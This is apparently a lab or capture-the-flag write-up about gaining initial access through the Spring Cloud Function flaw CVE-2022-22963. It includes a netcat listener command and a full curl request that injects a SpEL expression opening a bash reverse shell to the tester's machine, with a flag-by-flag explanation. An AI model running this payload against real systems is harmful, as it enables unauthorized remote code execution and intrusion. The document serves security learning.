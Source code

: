 # Initial Access 101: Exploiting ****CVE-2022-22963**** Vulnerability

## Introduction

I was practicing and learning when I encountered a new vulnerability. I discovered a vulnerability called 'Local File Inclusion' (LFI) in a web application. During my exploration, I found a file named pom.xml, which I was unaware of, So after somre research i found out that it is an XML file that contains information about the project and configuration details used by Maven to build the project. 

Looking through the content of file and searching on google about the spring framework boot exploit, after researching i found a poc on github for **CVE-2022-22963.**

### **CVE-2022-22963:**

In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources.

References:

https://0x1.gitlab.io/exploit/SpringBoot-RCE/ 

https://github.com/me2nuk/CVE-2022-22963

https://nvd.nist.gov/vuln/detail/CVE-2022-22963

## Exploitation:

Starting the listener. 

```bash
nc -lvnp 443
```

Running the payload which will call back to my machine.

```bash
curl -X POST http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(new String[]{"/bin/bash","-c","exec /bin/bash -i &>/dev/tcp/10.10.16.3/443 <&1"})' --data-raw 'data' -v
```
**Explaination**:

- The **`-H`** flag is used to specify a header for the request. In this case, it's setting the **`spring.cloud.function.routing-expression`** header to a specific value.

- The value of the header is a Spring Expression Language (SpEL) expression. It uses the **`T()`** notation to call a specific Java class and invoke a method. In this case, it's calling **`java.lang.Runtime.getRuntime().exec()`**.

- The **`exec()`** method is used to execute a command on the operating system. The command being executed is **`/bin/bash -c 'exec /bin/bash -i &>/dev/tcp/10.10.16.3/443 <&1'`**. This command is attempting to establish a reverse shell connection

- The `--data-raw` flag specifies the raw data that will be included in the request body. In this case, it's set to 'data'.

- The -v flag is used to enable verbose mode, which provides more detailed output during the request.


![p](https://github.com/Strange-0/initialaccess101/assets/76517909/366c8103-c0f3-401b-ab34-2b67e8589aba)

Got Shell

![i](https://github.com/Strange-0/initialaccess101/assets/76517909/13752b75-9f82-4241-8839-e11099bea890)
